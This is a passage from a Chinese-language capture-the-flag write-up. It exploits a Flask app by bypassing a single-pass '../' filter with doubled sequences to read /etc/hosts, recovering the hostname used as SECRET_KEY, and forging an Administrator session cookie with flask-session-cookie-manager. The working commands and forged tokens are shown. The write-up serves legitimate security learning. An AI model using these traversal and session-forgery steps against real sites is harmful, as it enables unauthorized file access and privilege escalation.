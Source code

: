 猜测是 flask session 伪造, 要想成功伪造 session 必须要知道 session 数据的结构和 secret_key

前者不用 secrect_key 就能从一个已知的 cookie 解密出来

后者在源码中是这句 `app.config['SECRET_KEY'] = socket.gethostname()`

`socket.gethostname()` 返回主机名

因为网站是 `http://eci-2zeh8hn89fu4tuminjj1.cloudeci1.ichunqiu.com:8888/`, 所以尝试了一下 `eci-2zeh8hn89fu4tuminjj1`, `eci`, `cloudeci1`, 但都失败了

于是准备换个思路, 继续看源码

```python
@app.route('/<path:file>', methods=['GET'])
def download(file):
    if session.get('updir'):
        basedir = session.get('updir')
        try:
            path = os.path.join(basedir, file).replace('../', '')
            if os.path.isfile(path):
                return send_file(path)
            else:
                return response("Not Found.", 404)
        except:
            return response("Failed.", 500)
```

这里检测文件是否存在并且调用 send_file 读取文件

过滤逻辑是把 `../` 替换成空, 很明显可以通过双写绕过, 也是因为看见了这个过滤才准备试一试是否存在任意文件读取 (后来查看文章后发现 send_file 本身就存在这个漏洞)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261616304.png)

读取文件不需要 Administrator 的 session, 这里用默认 Guest 的 session 就行

通过 /etc/hosts 读取主机名

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261621254.png)

`10.16.40.73	engine-1`

伪造 session [https://github.com/noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

```bash
exp10it@LAPTOP-TBAF1QQG:~/Desktop/flask-session-cookie-manager$ python3 flask_session_cookie_manager3.py decode -c eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6Ikd1ZXN0In0.Ywgd9w.c7bQruQSda7SYv7ktblCfUjnUco
b'{"updir":"static/uploads/4b3cf1ffc9224f4d830c5a29db854d15","user":"Guest"}'
exp10it@LAPTOP-TBAF1QQG:~/Desktop/flask-session-cookie-manager$ python3 flask_session_cookie_manager3.py encode -t '{"updir":"static/uploads/4b3cf1ffc9224f4d830c5a29db854d15","user":"Administrator"}' -s "engine-1"
eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6IkFkbWluaXN0cmF0b3IifQ.YwiDBg.4Wjinu5nPVHPi45TBGIMvI6xwKE
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261624505.png)
